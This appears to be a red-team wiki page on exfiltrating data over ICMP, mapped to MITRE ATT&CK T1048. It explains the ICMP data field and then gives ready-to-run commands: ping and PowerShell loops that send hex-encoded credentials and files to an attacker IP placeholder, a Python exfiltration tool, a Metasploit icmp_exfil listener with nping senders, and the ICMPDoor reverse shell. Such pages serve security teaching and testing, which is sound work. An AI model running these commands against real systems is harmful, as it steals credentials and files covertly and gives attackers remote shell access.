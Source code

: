 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - Technique T1048
---
```


# Exfiltration over ICMP

## Theory

The **Internet Control Message Protocol** (ICMP) is a supporting protocol in the Internet protocol suite. It is used by network devices, including routers, to send error messages and operational information indicating success or failure when communicating with another IP address ([Wikipedia](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol)).

### ICMP Data Section

At a high level, an ICMP packet consists of multiple fields, including a **Data** section. This section can contain arbitrary information, such as diagnostic messages, test payloads, or even copied portions of other network packets (e.g., IPv4 headers for error reporting). The following diagram illustrates the **Data** section, which is **optional** but can be leveraged for various purposes, including covert communication.

{% hint style="info" %}
Notably, **RFC 792** (which defines ICMP) does not impose any strict requirements on the content of the Data field. This means that **any data can be transmitted**, as long as the overall structure of the ICMP packet remains valid.
{% endhint %}

<div align="center"><figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure></div>

## Practice

{% tabs %}
{% tab title="Manualy" %}
### Linux Target

We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.

```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping <ATTACKING_IP> -c 1 -p 726f6f743a7040737377307264210a
```

On the attacking machine, we can receive the data as follows

```bash
# Listen for ping and save to pass.pcap
v4resk@kali$ sudo tcpdump icmp -i <INTERFACE> -w pass.pcap

# Extract data field and Hex decode
v4resk@kali$  tshark -r pass.pcap -Y "icmp" -T fields -e data | xxd -r -p
```

{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}

To facilitate file exfiltration and remove the limit of 16 bytes in the data field using the native ping command, you can alternatively employ [ICMP-Data-Exfiltration](https://github.com/Gurpreet06/ICMP-Data-Exfiltration) (python).&#x20;

```bash
# On target
python3 icmp_exfiltration.py -i 127.0.0.1 -m send -f /etc/hosts

# On attacking machine
python3 icmp_exfiltration.py -i wlan0 -m recv -f mydata
```

### Windows Target

On a Windows victime, we may exfiltrate data over ICMP using poweshell

```powershell
$ping = New-Object System.Net.Networkinformation.ping; foreach($Data in Get-Content -Path <input_file> -Encoding Byte -ReadCount 1024) { $ping.Send("<ip_address>", 1500, $Data) }
```

On the attacking machine, we can receive the data as follows

```bash
v4resk@kali$ sudo tcpdump icmp -i <INTERFACE> -w pass.pcap
v4resk@kali$ tshark -r pass.pcap -Y "icmp" -T fields -e data | xxd -r -p
```
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKING_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```

On the target, we can now exfiltrate data.

```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKING_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

On the victime machine:

```bash
victime@target$ sudo icmpdoor -i eth0 -d ATTACKING_IP
```

On the attacking machine:

```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d VICTIME_IP
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.bwlryq.net/posts/icmp_exfiltration/" %}

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}

{% embed url="https://www.atomicredteam.io/atomic-red-team/atomics/T1048.003" %}
